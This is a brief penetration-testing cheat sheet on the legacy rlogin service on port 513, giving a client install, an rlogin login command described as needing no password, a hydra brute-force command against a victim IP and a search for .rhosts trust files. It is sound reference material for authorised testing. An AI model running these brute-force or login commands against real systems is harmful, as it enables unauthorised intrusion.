 513 - Pentesting Rlogin
Basic Information

This service was mostly used in the old days for remote administration but now because of security issues this service has been replaced by the slogin and the ssh.

Default port: 513

PORT    STATE SERVICE
513/tcp open  login

Login

apt-get install rsh-client

This command will try to login to the remote host by using the login name root (for this service you don't need to know any password):

rlogin <IP> -l <username>

​Brute force​

hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V

Find files

find / -name .rhosts
